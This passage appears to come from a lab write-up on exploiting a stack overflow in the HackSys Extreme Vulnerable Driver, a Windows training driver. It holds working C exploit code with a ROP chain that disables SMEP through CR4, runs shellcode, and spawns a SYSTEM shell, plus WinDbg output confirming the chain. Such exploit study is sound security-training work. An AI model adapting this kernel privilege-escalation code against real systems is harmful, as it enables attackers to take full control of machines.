    HANDLE hDriver = CreateFile("\\\\.\\HacksysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        exit(1);
    }

    uintptr_t ntBase = getBaseAddr(L"ntoskrnl.exe");
    printf("[*] NTBase:      0x%llx\n", ntBase);

    uintptr_t POP_RCX = ntBase +  0x00000000002148c8; // pop rcx; ret; 
    uintptr_t MOV_CR4_RCX = ntBase + 0x00000000003a0a87; // mov cr4, rcx; ret; 
    int index = 0;  
    LPVOID uBuffer = VirtualAlloc(NULL, 2800, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    LPVOID uShellcode = VirtualAlloc(NULL, sizeof(sc), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    RtlFillMemory(uBuffer, 2800, 'A');
    RtlCopyMemory(uShellcode, sc, sizeof(sc));
    printf("[!] Ropping our way to system\n");
    uintptr_t* rop = (uintptr_t*)((uintptr_t)uBuffer + 2072);

    *(rop + index++) = POP_RCX;
    *(rop + index++) = 0x000000000b50ef8 ^ 1UL << 20;
    *(rop + index++) = MOV_CR4_RCX;
    *(rop + index++) = (uintptr_t)uShellcode;

    DeviceIoControl(hDriver, 0x222003, (LPVOID)uBuffer, 2800, NULL, 0, NULL, NULL);
    printf("[*] Spawning a shell with elevated privileges\n");
    system("cmd");
}
```

Confirming the execution of the ROP chain where the CR4 register value is being modified:

```java
0: kd> ba e1 HEVD!TriggerBufferOverflowStack
0: kd> g
Breakpoint 1 hit
HEVD!TriggerBufferOverflowStack:
fffff803`7b0c65b4 48895c2408      mov     qword ptr [rsp+8],rbx
0: kd> pt
HEVD!TriggerBufferOverflowStack+0x10b:
fffff803`7b0c66bf c3              ret
1: kd> p
nt!KiSetClockIntervalToMinimumRequested+0x98:
fffff803`76a148c8 59              pop     rcx
1: kd> p
nt!KiSetClockIntervalToMinimumRequested+0x99:
fffff803`76a148c9 c3              ret
1: kd> 
nt!KeFlushCurrentTbImmediately+0x17:
fffff803`76ba0a87 0f22e1          mov     cr4,rcx
1: kd> 
nt!KeFlushCurrentTbImmediately+0x1a:
fffff803`76ba0a8a c3              ret

```

Running the exploit, we have spawned the shell as `nt authority/system`

